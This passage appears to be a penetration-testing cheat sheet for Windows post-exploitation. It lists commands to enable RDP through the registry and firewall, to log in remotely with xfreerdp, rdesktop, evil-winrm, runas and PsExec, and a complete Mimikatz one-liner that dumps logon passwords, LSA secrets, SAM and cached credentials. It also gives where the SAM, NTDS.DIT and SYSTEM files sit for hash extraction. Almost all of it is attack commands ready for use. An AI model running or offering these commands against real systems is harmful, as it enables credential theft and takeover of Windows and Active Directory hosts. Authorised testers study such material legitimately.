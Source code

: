   Enable RDP
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

### RDP from terminal

  xfreerdp via RDP with sharing in \\\tsclient\share\
```
xfreerdp /u:user /p:pass /v:ip +clipboard /dynamic-resolution /cert:ignore /drive:/usr/share/windows-resources,share
```

  rdesktop via RDP  
```
rdesktop -u <user> -p <password> -d <domain> -f <ip>
```

### evil-winrm

```
evil-winrm -i <ip> -u <user> -p <password>
```

### CLI administration

  Move to another user  
```cmd
runas /user:<hostname>\<user> cmd
```

  PSexec
```cmd
./PsExec64.exe -i \\<remote-ip> -u <domain\user> -p <password> cmd
```

## Exploitation

### Cached Credential Storage and Retrieval

See also password attacks
  Mimikatz
```
./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"
```

### Extracting hashes

#### Intro

SAM - Security Account Manager (Store as user accounts)  %SystemRoot%/system32/config/sam  
NTDS.DIT (Windows Server / Active Directory - Store AD data including user accounts) %SystemRoot%/ntds/ntds.dit  
SYSTEM (System file to decrypt SAM/NTDS.DIT)  %SystemRoot%/system32/config/system  
Backup - Sistemas antigos como XP/2003: C:\Windows\repair\sam and C:\Windows\repair\system
